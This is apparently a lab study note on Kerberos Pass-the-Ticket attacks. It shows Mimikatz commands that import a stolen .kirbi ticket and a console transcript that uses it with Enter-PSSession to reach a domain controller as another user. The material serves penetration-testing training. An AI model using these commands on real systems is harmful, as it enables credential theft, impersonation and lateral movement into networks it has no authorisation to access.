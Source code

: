 ### **Mimikatz - Pass the Ticket**

Finally we can do `PtT` using `kerberos::ptt` module

- `kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"`
  then exit the mimikatz , now this same cmd has upgraded permission

**Note:** Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

# **Pass The Ticket with PowerShell Remoting (Windows)**

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer.

for this we should have `administrator permission` , be member of `Remote Management Users group` or have explicit `Powershell Remoting Permissions`

### **Mimikatz - Pass the Ticket for Lateral Movement.**

To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket and then open a PowerShell console and connect to the target machine. Let's open a new `cmd.exe` and execute mimikatz.exe, then import the ticket we collected using `kerberos::ptt`. Once the ticket is imported into our cmd.exe session, we can launch a PowerShell command prompt from the same cmd.exe and use the command `Enter-PSSession` to connect to the target machine.

```jsx
C:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```
